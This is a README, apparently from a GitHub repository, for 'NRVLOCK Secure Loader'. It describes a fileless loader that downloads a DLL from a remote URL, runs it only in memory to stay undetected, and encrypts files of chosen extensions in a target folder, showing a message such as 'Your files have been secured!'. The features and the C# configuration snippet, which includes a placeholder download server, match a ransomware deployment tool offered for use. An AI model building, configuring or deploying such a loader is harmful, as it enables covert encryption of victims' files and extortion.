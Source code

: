 # 🚀 NRVLOCK Secure Loader  

## ⚠️ Disclaimer  
**© 2024 CyberNrv. All rights reserved.**  
This software is **private and confidential**. **Sharing, modifying, or redistributing this code is strictly prohibited**. Unauthorized use, distribution, or analysis of this loader **violates the terms set by the author**.  

## 🔒 Purpose  
This loader is designed to **securely load NRVLOCK.dll into memory** without leaving any traces on disk.  
It ensures **stealth execution** and **memory-only operations**, making it highly efficient and undetectable.  

## 🔧 How It Works  
1️⃣ **Downloads the remote NRVLOCK.dll** from a predefined URL.  
2️⃣ **Loads the DLL directly into memory** (without writing to disk).  
3️⃣ **Calls NRVRUN dynamically**, passing customizable arguments.  
4️⃣ **Cleans memory after execution**, leaving no traces.  

## 🔹 Configuration  
To use this loader, replace the following arguments with your own values:  
```csharp
string target = "C:\\Users\\Public\\Documents";  // 📂 Target directory
string extensions = ".txt;.docx";  // 📝 File extensions to process
string key = "YourEncryptionKey";  // 🔑 Encryption key
string lkey = "YourLicenseKey";  // 🔏 License key
bool ViewConsole = true;  // 🖥️ Show/hide console
string msg = "Your files have been secured!";  // ✉ Custom message after execution
string dllUrl = "https://yourserver.com/NRVLOCK.dll";  // 🔗 NRVLOCK.dll download URL
